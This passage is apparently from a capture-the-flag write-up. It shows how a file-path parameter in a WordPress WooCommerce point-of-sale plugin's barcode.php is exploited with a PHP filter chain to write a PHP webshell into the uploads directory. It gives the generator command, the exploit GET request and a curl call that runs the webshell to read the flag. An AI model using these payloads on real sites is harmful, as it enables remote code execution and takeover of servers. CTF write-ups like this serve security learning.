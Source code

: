 ## Exploitation

Armed with above information, we can use [PHP filter chain generator](https://github.com/synacktiv/php_filter_chain_generator) developed by Synackti. We can use this tool to generate a PHP filter chain that converts some of the raw bytes data in the PNG image into our own PHP code:

```shell
┌[siunam♥Mercury]-(/opt/php_filter_chain_generator)-[2025.02.26|20:10:22(HKT)]-[git://main ✔]
└> ./php_filter_chain_generator.py --chain 'AAAAAAA<?php system($_GET["cmd"]); ?>'
[+] The following gadget chain will generate the following code : AAAAAAA<?php system($_GET["cmd"]); ?> (base64 value: QUFBQUFBQTw/cGhwIHN5c3RlbSgkX0dFVFsiY21kIl0pOyA/Pg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|[...]|convert.base64-decode/resource=php://temp
```

> Note: Those A's in the front are padding characters. Otherwise, the `<` character will be converted into a different character.

Also, since we want our injected PNG image file is writing to the file system, not into the temporary file (`php://temp`), we need to change the PHP filter chain to have a `write` parameter, and change the `resource` parameter's value to a directory that we want to write into.

Hmm... Which directory should we use? If you remember correctly, directory `/var/www/html/wp-content/uploads` is set to be writable in the `Makefile`:

```bash
[...]
@chmod -R 755 /var/www/html/wp-content/uploads
```

So, we'll need to write the file into that directory.

Therefore, the final filter chain should be like this:

```
php://filter/write=convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|[...]|convert.base64-decode/resource=/var/www/html/wp-content/uploads/webshell.php
```

If we send the following GET request, the injected PHP code should be written into directory `/var/www/html/wp-content/uploads/webshell.php`:

```http
GET /wp-content/plugins/mwb-point-of-sale-pos-for-woocommerce/package/lib/php-barcode-master/barcode.php?filepath=php://filter/write=convert.iconv.UTF8.CSISO2022KR|[...]|convert.base64-decode/resource=/var/www/html/wp-content/uploads/webshell.php HTTP/1.1
Host: 52.77.81.199:9108


```

Which we can finally get the flag via our webshell!

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/Sneaky)-[2025.02.26|20:27:18(HKT)]
└> curl -s --get http://52.77.81.199:9108/wp-content/uploads/webshell.php --data-urlencode 'cmd=cat /flag*.txt'
AAAAAAACTF{you_sneaky_arent_you_9b44dfdf81200}
```

- **Flag: `CTF{you_sneaky_arent_you_9b44dfdf81200}`**

## Conclusion

What we've learned:

1. Arbitrary file write via PHP filter chain